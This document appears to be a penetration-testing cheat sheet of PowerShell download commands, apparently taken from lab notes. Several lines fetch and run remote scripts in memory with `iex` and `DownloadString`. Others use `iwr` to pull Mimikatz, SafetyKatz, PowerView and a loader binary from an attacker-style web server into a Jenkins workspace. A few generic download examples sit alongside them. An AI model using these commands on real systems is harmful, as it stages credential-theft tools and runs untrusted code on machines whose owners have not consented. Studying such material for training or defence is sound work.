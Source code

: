 ```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellScript.ps1');Invoke-PowerShellScript -arg1 value -arg2 value
```

### Download from SMB

`Copy-Item -Source \\server\share\file -Destination C:\path\`

### Download in Powershell - WebClient

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://www.contoso.com/file","C:\path\file")
```

### Download in Powershell - Easy Download
```
iwr ((New-Object Net.WebClient).DownloadString('http://172.16.100.87/PowerView.ps1'))
```

### Download with Invoke-WebRequest

```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```

### Download with Wget

```
wget "http://www.contoso.com" -outfile "file"
```

### Download with Authentication

```
Invoke-WebRequest -Uri https://www.contoso.com/ -OutFile C:"\path\file" -Credential "yourUserName"
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http://172.16.99.87/PowerView.ps1","C:\Program Files (x86)\Jenkins\workspace\Project11\PowerView.ps1")
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http://172.16.99.87/PowerView.ps1","C:\Users\student487\Downloads\PowerView.ps1")



```

```
iex (iwr http://172.16.99.87/Invoke-Mimikatz.ps1 -UseBasicParsing)

iwr http://172.16.99.87/SafetyKatz.exe -OutFile "C:\Program Files (x86)\Jenkins\workspace\Project11\SafetyKatz.exe"

iwr http://172.16.99.87/mimikatz.exe -OutFile "C:\Program Files (x86)\Jenkins\workspace\Project11\mimikatz.exe"


iwr http://172.16.99.87/Loader.exe -OutFile "C:\Program Files (x86)\Jenkins\workspace\Project11\Loader.exe"



```